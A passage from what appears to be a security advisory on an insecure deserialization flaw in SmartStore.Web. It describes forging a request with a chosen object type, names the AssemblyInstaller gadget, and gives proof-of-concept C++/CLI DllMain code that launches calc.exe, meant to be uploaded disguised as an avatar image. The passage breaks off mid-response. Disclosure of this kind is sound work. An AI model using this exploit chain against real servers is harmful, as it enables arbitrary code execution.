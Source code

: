 CustomProperties%5BProviderConfigData%5D.Pattern=
</code></pre></div></div>

<p>an object of type <code class="language-plaintext highlighter-rouge">ProfileConfigurationModel</code> is created and its members get initialized by calling public setters.</p>

<p>A malicious user (Attacker) may send a forged request with a different object type and properties. The limitations are:</p>
<ol>
  <li>Only the root object type can be specified. The custom deserialization function doesn’t support handling custom types for properties.</li>
  <li>The type must have a public parameterless constructor.</li>
  <li>The constructor should not demand Single-Threaded-Apartment (STA).</li>
</ol>

<p>Since carefuly chosen setter invocation may trigger code execution with user supplied data this should be enough to execute arbitrary code by any authenticated user. Currently there is no <strong>publicly known</strong> type that satisfies all the limitations to execute arbitrary code from a request. However there is a type <a href="https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf">System.Configuration.Install.AssemblyInstaller</a> that satisfies it all, but requires a specially crafted .NET assembly be uploaded first.</p>

<p>To make a Proof of Concept (PoC) the following code can be compiled into mixed mode C++/CLI assembly:</p>

<div class="language-cpp highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="cp">#define WIN32_LEAN_AND_MEAN
#include &lt;windows.h&gt;
#pragma unmanaged
</span>
<span class="k">extern</span> <span class="s">"C"</span> <span class="n">BOOL</span> <span class="n">APIENTRY</span> <span class="nf">DllMain</span><span class="p">(</span><span class="n">HMODULE</span> <span class="n">hinstDLL</span><span class="p">,</span> <span class="n">DWORD</span> <span class="n">fwdReason</span><span class="p">,</span> <span class="kt">void</span><span class="o">*</span> <span class="n">lpvReserved</span><span class="p">)</span>
<span class="p">{</span>
    <span class="k">if</span> <span class="p">(</span><span class="n">fwdReason</span> <span class="o">==</span> <span class="n">DLL_PROCESS_ATTACH</span><span class="p">)</span>
    <span class="p">{</span>
        <span class="n">STARTUPINFO</span> <span class="n">si</span> <span class="o">=</span> <span class="p">{</span> <span class="mi">0</span> <span class="p">};</span>
        <span class="n">PROCESS_INFORMATION</span> <span class="n">pi</span> <span class="o">=</span> <span class="p">{</span> <span class="mi">0</span> <span class="p">};</span>
        <span class="n">CreateProcess</span><span class="p">(</span><span class="s">L"C:</span><span class="se">\\</span><span class="s">WINDOWS</span><span class="se">\\</span><span class="s">system32</span><span class="se">\\</span><span class="s">calc.exe"</span><span class="p">,</span> <span class="nb">NULL</span><span class="p">,</span> <span class="nb">NULL</span><span class="p">,</span> <span class="nb">NULL</span><span class="p">,</span> <span class="n">FALSE</span><span class="p">,</span> <span class="mi">0</span><span class="p">,</span> <span class="nb">NULL</span><span class="p">,</span> <span class="nb">NULL</span><span class="p">,</span> <span class="o">&amp;</span><span class="n">si</span><span class="p">,</span> <span class="o">&amp;</span><span class="n">pi</span><span class="p">);</span>
    <span class="p">}</span>
    <span class="k">return</span> <span class="n">TRUE</span><span class="p">;</span>
<span class="p">}</span>
</code></pre></div></div>
<p>The compiled dll can be renamed and uploaded as an avatar image, for example, if the feature is enabled on the server. During the avatar image upload the server renames the file, but the name can be inferred from the server response, e.g.:</p>
<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>HTTP/1.1 200 OK
...
{
"$type":"&lt;&gt;f__AnonymousType40`2[[System.Boolean, mscorlib],[System.String, mscorlib]], SmartStore.Web",
"success":true,